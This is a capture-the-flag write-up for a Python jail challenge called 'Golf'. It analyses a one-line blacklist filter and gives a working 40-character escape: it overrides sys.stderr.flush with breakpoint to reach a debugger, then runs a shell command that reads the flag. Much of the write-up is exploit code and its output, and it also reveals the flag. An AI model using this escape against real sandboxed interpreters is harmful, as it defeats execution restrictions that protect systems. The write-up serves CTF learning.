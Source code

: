 # Golf

Categories: Jail/Python

Description:
>"Let's go golfin'"
>
> >    DJ Khaled
>
> 
>author: TheRomanXpl0it (TRX) staff
>
>[challenge-misc-golf.zip](challenge-misc-golf.zip)

**Tags:** sandbox, python escape, jail

## Takeaways

* Overwriting functions that are called automatically by the runtime

## Challenge

```python
#!/usr/bin/env python3.13
if(c:=input()).isascii()*~-any(x in(c)for(x)in'!"#\'()*+-:<>@[]\\_{}'):exec(c[:43])
```

## Solution
Let's break it down:

```python
#!/usr/bin/env python3.13
blacklisted = '!"#\'()*+-:<>@[]\\_{}'

c = input()

c1 = c.isascii()
c2 = any(x in c for x in blacklisted)
c3 = -c2        #     -any(x in c for x in blacklisted):
c4 = ~c3        #    ~-any(x in c for x in blacklisted):
c5 = c1 * c4    # c2*~-any(x in c for x in blacklisted):

print(f"c1: {c1}")
print(f"c2: {c2}")
print(f"c3: {c3}")
print(f"c4: {c4}")
print(f"c5: {c5}")

if c5:
    print("Executing")
    exec(c[:43])
else:
    print("blacklisted")
```

Let's produce the boolean matrix for `c5`:
```bash
# Supplying ascii characters (c1=True) and allowed:
$ python solution.py
print
c1: True
c2: False
c3: 0
c4: -1
c5: -1
Executing

# Supplying non-ascii characters (c1=False) and allowed:
$ python solution.py
😊
c1: False
c2: False
c3: 0
c4: -1
c5: 0
blacklisted

# Supplying ascii characters (c1=True) and blacklisted:
nikos@inspiron:~/ctfs/ctf-writeups/trx25/pwn/golf$ python solution.py
()
c1: True
c2: True
c3: -1
c4: 0
c5: 0
blacklisted

# Supplying non-ascii (c1=False) and blacklisted:
nikos@inspiron:~/ctfs/ctf-writeups/trx25/pwn/golf$ python solution.py
(😊)
c1: False
c2: True
c3: -1
c4: 0
c5: 0
blacklisted
```

So, by building the above boolean matrix for `c5 = bool(c1 * c4)`, our input must be ascii and the remaining condition is just a fancy blacklist. So, it is really a matter of finding an up to 43 characters payload with no direct function calls to pop a shell.

Since we have no direct function calls (i.e. operator `()`), we will overwrite a function that gets called automatically by the runtime. For example, `sys.stderr.write` and `sys.stderr.flush` are called when an exception occurs. `write` takes 1 argument but `flush` takes 0 arguments, so we can replace it with `breakpoint`:

```python
# When an undefined variable is used, such as "a",
# a "NameError: name 'a' is not defined" exception occurs
import sys;sys.stderr.flush=breakpoint;a # 40 chars length
> /usr/lib/python3.13/pdb.py(2347)set_trace()
-> pdb.set_trace(sys._getframe().f_back)
(Pdb)
```
This drops us inside the debugger and then we can read the flag:
```python
(Pdb) import os; os.system('cat flag')
TRX{https://www.youtube.com/watch?v=nSzTeFBa4qM}
```
